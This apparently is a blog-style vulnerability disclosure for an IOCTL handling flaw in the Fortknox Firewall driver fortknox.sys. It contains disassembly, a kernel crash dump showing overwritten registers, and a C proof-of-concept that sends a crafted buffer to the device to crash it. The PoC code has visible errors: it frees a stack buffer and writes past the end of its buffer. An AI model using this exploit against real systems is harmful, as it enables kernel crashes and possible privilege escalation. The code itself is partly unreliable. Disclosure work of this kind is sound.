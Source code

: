 ```yaml
---
layout: post
title:  "Fortknox Firewall - IOCTL Handling Vulnerability"
categories: 
tags:
  - driver
  - ioctl
---
```


Description
-----------
Fortknox Firewall prone to vulnerable with IOCTL handling vulnerability. It is found that the vulnerability could lead to code execution. 
The affected module found was the **fortknox.sys** with vulnerable IOCTL **0x8E86200C**.

Vulnerability Analysis
----------------------
Inspecting the vulnerable IOCTL code:
```
  .text:0001600D                 cmp     eax, 8E86200Ch ; vulnerable IOCTL 
  .text:00016012                 jz      short loc_1604D
```
Check input size buffer **0x98** send thru vulnerable IOCTL. It then continue for another check on **sub_150E4**.
``` 
  .text:0001604D                 cmp     ecx, 98h           ; input check here
  .text:00016053                 jnz     loc_16276
  .text:00016059                 mov     eax, [ebp+arg_4]   ; our input 
  .text:0001605C                 cmp     eax, ebx
  .text:0001605E                 jz      loc_16276          ; check for the input from IOCTL sent
  .text:00016064                 push    eax
  .text:00016065                 push    dword ptr [eax]
  .text:00016067                 call    sub_150E4
```
Vulnerable path where it failed to handle the IOCTL input **0x98**:
```
  .text:0001518D                 push    31565244h       ; Tag
  .text:00015192                 push    98h             ; NumberOfBytes
  .text:00015197                 push    edi             ; PoolType
  .text:00015198                 call    ds:ExAllocatePoolWithTag
  .text:0001519E                 mov     ebx, eax
  .text:000151A0                 cmp     ebx, edi
  .text:000151A2                 jz      short loc_1512F
  .text:000151A4                 mov     eax, [ebp+arg_4]
  .text:000151A7                 push    26h
  .text:000151A9                 mov     esi, eax
  .text:000151AB                 pop     ecx
  .text:000151AC                 mov     edi, ebx
  .text:000151AE                 rep movsd                  ; memcpy() function here
  .text:000151B0                 mov     eax, [eax+90h]
  .text:000151B6                 test    eax, eax
  .text:000151B8                 jz      short loc_151F6
  .text:000151BA                 lea     esi, [eax+1]       ; here we can see the buffer bytes is 0x98
  .text:000151BD                 mov     cl, [eax]          ; crashed at this part and overwrite data on EAX
  .text:000151BF                 inc     eax                ; attacker can leverage this part where increase the bytes and overwrite 
                                                            ; data here for shellcode, etc.
  .text:000151C0                 test    cl, cl
  .text:000151C2                 jnz     short loc_151BD
```
Successful triggering the crash with capable control and overwrite ESI and EAX:
```
  kd> .trap 0xffffffffa13d4950
  ErrCode = 00000000
  eax=41414141 ebx=a0de6aa0 ecx=00000000 edx=0000169e esi=41414142 edi=a0de6b38
  eip=8cafd1bd esp=a13d49c4 ebp=a13d49d4 iopl=0         nv up ei pl nz na pe nc
  cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00010206
  fortknoxfw+0x51bd:
  8cafd1bd 8a08            mov     cl,byte ptr [eax]          ds:0023:41414141=??
```
  
Proof-of-Concept
----------------
To compile, use Visual Studio command prompt: ```cl.exe /nologo code.c```
```
#include <stdio.h>
#include <windows.h>

void main()
{
  ULONG   InBuf = 0;
   DWORD   dwRetbytes = 0;
  BYTE  buff[0x98];
  
  HANDLE hdev = CreateFileA("\\\\.\\fortknoxfw_ctl", GENERIC_READ | GENERIC_WRITE, 0, 0, OPEN_EXISTING, 0, NULL);
    
  if (hdev==INVALID_HANDLE_VALUE)
  {
        printf("CreateFile Failed: %d/n",GetLastError());
  }
    
  memset(buff, 'A', 0x98);
  memset(buff + 100, 'B', 4);
  memset(buff + 200, 'C', 4);

  DeviceIoControl(hdev, 0x8e86200c, &InBuf, 0x98, buff, 0x98, &dwRetbytes, NULL);
  free(buff);
}
```
